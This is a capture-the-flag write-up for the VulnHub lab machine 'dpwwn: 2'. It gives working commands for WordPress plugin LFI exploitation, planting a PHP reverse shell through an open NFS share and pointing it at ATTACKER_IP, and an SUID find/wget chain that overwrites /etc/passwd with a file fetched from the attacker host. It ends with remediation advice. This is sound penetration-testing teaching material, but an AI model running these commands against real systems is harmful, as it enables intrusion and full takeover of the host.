




# dpwwn: 2 — Writeup

| | |
|-|-|
| **Target IP** | 10.10.10.10 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | dpwwn-02-FLAG.txt in /root |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/dpwwn-2,367/) |

## Attack Summary

nmap → dirb → WordPress + Site Editor 1.1.1 plugin → LFI (EDB-44340) → NFS share exposed → drop PHP shell via NFS mount → LFI triggers shell → www-data → SUID find → wget gets SUID → overwrite /etc/passwd → su as new root user → root

## Methodology

1. Network discovery — ports 80, 443, 2049 (NFS)
2. Directory bruteforce reveals WordPress
3. WPScan identifies Site Editor 1.1.1 (LFI)
4. LFI to read /etc/passwd
5. NFS share mounted, PHP reverse shell planted
6. LFI used to execute shell
7. SUID chain: find → wget SUID → overwrite passwd → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 10.10.10.0/24
nmap -A 10.10.10.10
```

Key ports: **80** (Apache), **443** (HTTPS), **2049** (NFS).



---

## Step 2: Web Enumeration

```bash
dirb http://10.10.10.10/
# Finds /wordpress/
wpscan --url http://10.10.10.10/wordpress -e p
# Site Editor plugin 1.1.1 — vulnerable to LFI
searchsploit site editor 1.1.1
searchsploit -m 44340
```



---

## Step 3: Local File Inclusion (EDB-44340)

```bash
curl "http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd"
```

Returns `/etc/passwd` content — LFI confirmed.



---

## Step 4: NFS Mount — Plant Reverse Shell

```bash
showmount -e 10.10.10.10
# /home/dpwwn02 accessible

mkdir /tmp/raj
mount -t nfs 10.10.10.10:/home/dpwwn02 /tmp/raj

# Copy PHP reverse shell to the NFS share
cp /usr/share/webshells/php/php-reverse-shell.php /tmp/raj/shell.php
# Edit shell.php: set $ip = ATTACKER_IP, $port = 1234
```



---

## Step 5: Trigger Reverse Shell via LFI

```bash
# Start listener
nc -lvp 1234

# Trigger the shell via LFI
curl "http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/dpwwn02/shell.php"
```

Shell received as `www-data`.

---

## Step 6: Privilege Escalation — SUID → wget → passwd overwrite

```bash
find / -perm -u=s -type f 2>/dev/null
# /usr/bin/find has SUID — abuse to give wget SUID

find /home -exec chmod u+s /usr/bin/wget \;
ls -la /usr/bin/wget
# -rwsr-xr-x

# On attacker: create malicious passwd
cat /etc/passwd | head -1
openssl passwd -1 -salt user3 pass123
# Copy /etc/passwd, append: raj:$1$user3$...:0:0:root:/root:/bin/bash
# Serve on port 8080
python3 -m http.server 8080

# On target: overwrite /etc/passwd
wget -O /etc/passwd http://ATTACKER_IP:8080/passwd
su raj
# Password: pass123
```

```bash
id
# uid=0(root)
cat /root/dpwwn-02-FLAG.txt
```


---

## Lessons Learned

1. **LFI in WordPress plugins** — outdated plugins with file inclusion bugs give read access to the entire filesystem
2. **NFS without authentication** — mounting an NFS share as root allows arbitrary file writes to the target's home directory
3. **SUID find binary** — `find -exec` can change permissions on any binary, creating a privilege escalation chain
4. **Overwriting /etc/passwd** — once write access to `/etc/passwd` is achieved, adding a uid=0 user trivially grants root

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Site Editor 1.1.1 LFI | Update or remove the plugin; implement input sanitization |
| NFS unauthenticated export | Restrict NFS exports by IP; use `root_squash`; require Kerberos auth |
| SUID find binary | Remove SUID from `find`; audit all SUID binaries regularly |
| /etc/passwd world-writable path | Use immutable flag; monitor with file integrity monitoring (AIDE) |
